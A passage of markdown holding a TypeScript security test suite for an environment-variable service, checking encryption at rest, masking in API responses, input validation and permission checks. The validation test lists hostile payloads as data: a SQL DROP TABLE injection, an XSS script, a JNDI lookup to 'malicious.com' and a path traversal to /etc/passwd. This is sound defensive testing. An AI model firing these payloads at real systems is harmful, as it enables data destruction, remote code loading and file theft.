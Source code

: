 ### 🔒 Security Testing Framework

#### Security Test Suite
```typescript
describe('Security Testing Suite', () => {
  describe('Encryption and Data Protection', () => {
    it('should never store sensitive values in plaintext', async () => {
      const sensitiveVariable = await createVariable({
        name: 'SENSITIVE_API_KEY',
        value: 'super-secret-key-12345',
        securityClassification: 'confidential'
      });

      // Check database directly
      const dbRecord = await db.query(
        'SELECT encrypted_value FROM environment_variable_values WHERE variable_id = ?',
        [sensitiveVariable.id]
      );

      expect(dbRecord.encrypted_value).not.toContain('super-secret-key');
      expect(dbRecord.encrypted_value).not.toBe('super-secret-key-12345');
    });

    it('should mask sensitive values in API responses', async () => {
      const confidentialVar = await createConfidentialVariable();
      
      const response = await request(app)
        .get(`/api/environment/variables/${confidentialVar.id}`)
        .set('Authorization', `Bearer ${userToken}`);

      expect(response.body.value).toBeUndefined();
      expect(response.body.encryptedValue).toBeUndefined();
      expect(response.body.displayValue).toBe('••••••••');
    });

    it('should validate all input for security vulnerabilities', async () => {
      const maliciousInputs = [
        "'; DROP TABLE environment_variables; --",
        "<script>alert('xss')</script>",
        "${jndi:ldap://malicious.com}",
        "../../../etc/passwd"
      ];

      for (const maliciousInput of maliciousInputs) {
        await expect(
          request(app)
            .post('/api/environment/variables')
            .send({ name: maliciousInput, value: 'test' })
        ).rejects.toThrow();
      }
    });
  });

  describe('Access Control Security', () => {
    it('should prevent privilege escalation', async () => {
      const regularUser = await createUser({ role: 'developer' });
      const adminVariable = await createVariable({ securityClassification: 'wedding_day_critical' });

      await expect(
        service.updateVariable(adminVariable.id, { value: 'hacked' }, regularUser)
      ).rejects.toThrow('Insufficient permissions');
    });
```